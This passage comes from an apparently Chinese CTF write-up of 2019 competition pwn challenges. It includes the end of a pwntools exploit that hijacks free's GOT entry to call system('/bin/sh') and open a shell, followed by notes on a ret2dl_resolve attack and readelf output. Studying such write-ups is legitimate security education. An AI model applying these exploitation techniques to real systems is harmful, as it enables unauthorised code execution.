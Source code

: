 ```python
free_got = elf.got["free"]
system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))

# make type confusion
add(0x80 * "a" + "\n") # 3

add(0x10 * "a" + "\n") # 4
add(0x10 * "a" + "\n") # 5
add(0x10 * "a" + "\n") # 6
free(5)
free(6)

add(0x20 * "a" + "\n") # 5
add(0x10 * "c" + "\n") # 6

# hijack got
payload = p32(6) + p32(0x10) + p64(free_got)
change(4, payload + "\n")
change(6, p64(system) + "\n")
free(2)

p.interactive() 
```

## 0x03  baby_pwn

### 分析

就是re2dl_resolve。

直接修改XDCTF2015的exp即可。

步骤有：

1. 找ppp、popebp、leave;ret等作stack pivoting的gadget；
2. 找到plt段，rel_plt段，dynsym段，dynstr等段的地址
3. 构造即可rel_plt重定位到dynsym表。

readelf的使用如下

```
liwc@ubuntu:~/pwn/2019_guosai/baby_pwn$ readelf -S pwn
There are 31 section headers, starting at offset 0x18b0:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000a0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804827c 00027c 00006c 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482e8 0002e8 000014 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482fc 0002fc 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804831c 00031c 000020 08   A  5   0  4
  [10] .rel.plt          REL             0804833c 00033c 000020 08  AI  5  24  4
  [11] .init             PROGBITS        0804835c 00035c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048380 000380 000050 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483d0 0003d0 000008 00  AX  0   0  8
  [14] .text             PROGBITS        080483e0 0003e0 000202 00  AX  0   0 16
  [15] .fini             PROGBITS        080485e4 0005e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485f8 0005f8 000008 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        08048600 000600 00003c 00   A  0   0  4
```